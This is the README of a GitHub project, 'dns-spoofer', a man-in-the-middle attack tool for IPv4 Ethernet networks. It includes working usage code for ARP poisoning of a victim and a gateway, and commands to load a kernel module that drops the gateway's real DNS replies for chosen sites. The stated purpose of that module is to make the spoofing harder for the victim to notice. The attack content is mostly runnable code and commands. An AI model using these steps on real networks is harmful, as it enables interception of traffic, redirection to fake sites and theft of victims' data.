 [![Build Status](https://travis-ci.org/adw1n/dns-spoofer.svg?branch=master)](https://travis-ci.org/adw1n/dns-spoofer)
![implementation](https://img.shields.io/badge/python-3.4%2C%203.5%2C%203.6-blue.svg)
![versions](https://img.shields.io/badge/implementation-cpython-blue.svg)

Work In Progress
### About
man in the middle attacks

#### Limitations
* Ethernet II networks
* ipv4 only

#### Dependencies / requirements
* libnet-dev
* libpcap-dev
* python3-dev
* c++ compiler with c++11 support

For the "firewall" module:
* linux kernel >=4 (tested on 4.2, 4.4, 4.6 and 4.9)  
For older kernels you will probably have to change some functions signatures.
### Install

```bash
git clone https://github.com/adw1n/dns-spoofer
cd dns-spoofer

# If you are going to run setup.py install, then
# I recommend using a virtualenv for this.
python setup.py build
python setup.py install # You could also add directory build/lib... to the PYTHONPATH instead.
```

### Usage
```bash
sudo sh -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'
sudo python  # dnsspoofer requires root privileges
```
#### ARP poisoning
```python
import dnsspoofer

# module documentation is available by:
# help(dnsspoofer)

# your mac addr:
# 33:33:33:33:33:33
# example arp -n output:
# gateway:
# 192.168.1.1     ether   10:20:30:40:50:60   C  em1
# victim:
# 192.168.1.100   ether   01:02:03:04:05:06   C  em1
dnsspoofer.spoof_arp(b"\x01\x02\x03\x04\x05\x06",b"192.168.1.1")
# now arp -n output on the victim machine:
# 192.168.1.1     ether   33:33:33:33:33:33   C  em1

# you probably also want to spoof the victim's (192.168.1.100)
# mac address on the gateway
dnsspoofer.spoof_arp(b"\x10\x20\x30\x40\x50\x60",b"192.168.1.100")
```

#### DNS poisoning
see the [example.py](example.py) file

I haven't implemented the reverse DNS lookups (.in-addr.arpa requests), but this works fine in most cases without them too.
##### Netfilter kernel module
The DNS spoofing presented in example.py works, provided that you are faster than the gateway. This might not always be the case - for example the gateway might be caching the results. In this case the first time the victim tries to ping facebook.com everything might be working as expected, but the next time he asks about facebook.com the gateway will respond immediately. This can result in your response reaching the victim too late. This is super easy to notice in wireshark.

The additional benefit of blocking gateway's reponses to the spoofed requests is that it is going to be harder to notice the spoofing going around form the victim's point of view.
##### Solution
**!!!WARNING!!!  
Badly written kernel module can screw up your system. I recommend using for this a VM. Your mileage may vary.  
!!!WARNING!!!**

```bash
cd firewall
make
modinfo dnsfirewall.ko # show info about the module


# load the module
sync && sudo insmod dnsfirewall.ko blocked_sites="wp.pl|facebook.com|youtube.com" gateway=192.168.1.1 victim=192.168.1.100
# Module writes messages to SYSLOG with prefix 'DNS-SPOOFER'.


# remove the module
sync && sudo rmmod dnsfirewall.ko
```
